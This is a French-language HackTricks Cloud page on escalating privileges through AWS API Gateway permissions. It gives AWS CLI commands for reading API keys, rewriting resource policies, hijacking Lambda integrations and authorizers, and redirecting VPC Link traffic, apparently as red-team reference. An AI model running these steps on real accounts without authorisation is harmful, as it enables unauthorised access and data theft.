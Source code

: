 # AWS - Apigateway Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apigateway

Pour plus d'informations, consultez :

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Avec cette permission, vous pouvez générer des clés API des APIs configurées (par région).
```bash
aws --region <region> apigateway create-api-key
```
**Impact potentiel :** Vous ne pouvez pas privesc avec cette technique, mais vous pourriez accéder à des informations sensibles.

### `apigateway:GET`

Avec cette autorisation, vous pouvez obtenir les clés API générées des API configurées (par région).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Impact potentiel :** Vous ne pouvez pas privesc avec cette technique, mais vous pourriez avoir accès à des informations sensibles.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Avec ces autorisations, il est possible de modifier la politique de ressource d'une API pour vous donner accès à l'appeler et abuser de l'accès potentiel que la passerelle API pourrait avoir (comme invoquer une lambda vulnérable).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Impact potentiel :** Vous ne pourrez généralement pas effectuer de privesc directement avec cette technique, mais vous pourriez obtenir accès à des informations sensibles.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Nécessite des tests
{% endhint %}

Un attaquant avec les permissions `apigateway:PutIntegration`, `apigateway:CreateDeployment`, et `iam:PassRole` peut **ajouter une nouvelle intégration à une API Gateway REST API existante avec une fonction Lambda qui a un rôle IAM attaché**. L'attaquant peut alors **déclencher la fonction Lambda pour exécuter du code arbitraire et potentiellement accéder aux ressources associées au rôle IAM**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impact potentiel** : Accès aux ressources associées au rôle IAM de la fonction Lambda.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Nécessite des tests
{% endhint %}

Un attaquant disposant des autorisations `apigateway:UpdateAuthorizer` et `apigateway:CreateDeployment` peut **modifier un authorizer API Gateway existant** pour contourner les vérifications de sécurité ou pour exécuter du code arbitraire lors des requêtes API.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impact potentiel** : Contournement des vérifications de sécurité, accès non autorisé aux ressources API.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Nécessite des tests
{% endhint %}

Un attaquant disposant de la permission `apigateway:UpdateVpcLink` peut **modifier un VPC Link existant pour le faire pointer vers un autre équilibreur de charge réseau, redirigeant potentiellement le trafic API privé vers des ressources non autorisées ou malveillantes**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Impact potentiel** : Accès non autorisé aux ressources API privées, interception ou perturbation du trafic API.

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
